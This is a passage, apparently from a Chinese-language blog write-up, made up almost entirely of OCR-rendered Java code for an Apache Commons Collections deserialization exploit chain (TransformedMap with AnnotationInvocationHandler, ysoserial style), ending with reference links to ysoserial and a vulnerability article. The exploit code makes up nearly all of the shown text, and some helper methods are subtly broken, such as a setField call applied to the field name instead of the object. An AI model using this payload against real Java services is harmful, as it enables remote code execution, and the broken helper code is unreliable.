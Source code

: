 	, execArgs),
		new ConstantTransformer(1)
	}
	;
	final Transformer transformerChain = new ChainedTransformer(
		new Transformer[]{new ConstantTransformer(1)
	}
	);
	//Transformer transformerChain = new ChainedTransformer(transformers);
	Map map = new HashMap();
	Map transformedmap = TransformedMap.decorate(map, null, transformerChain);
	transformedmap.put("value", "xx");
	Class cls = Class
		.forName("sun.reflect.annotation.AnnotationInvocationHandler");
	InvocationHandler handler = (InvocationHandler) getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Retention.class, transformedmap);
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
	return handler;
	}
	public static void main(final String[] args) throws Exception {
	PayloadRunner.run(CommonsCollections7.class, args);
	}
	public static Boolean isApplicableJavaVersion() {
	return JavaVersion.isAnnInvHUniversalMethodImpl();
	}
	public static Constructor getFirstCtor(final String name)
		throws Exception {
	final Constructor<?> ctor = Class.forName(name)
		.getDeclaredConstructors()[0];
	ctor.setAccessible(true);
	return ctor;
	}
	public static Field getField(Class<?> clazz, String fieldName) throws NoSuchFieldException {
	Field field = clazz.getDeclaredField(fieldName);
	if (field != null)
		field.setAccessible(true); else if (clazz.getSuperclass() != null)
		field = getField(clazz.getSuperclass(), fieldName);
	field.setAccessible(true);
	return field;
	}
	public static void setField(Object object, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
	Field field = getField(object.getClass(), fieldName);
	field.set(fieldName, value);
	}
	
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/29737134.jpg)

## 参考链接 
[https://github.com/frohoff/ysoserial]()
[https://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/]()
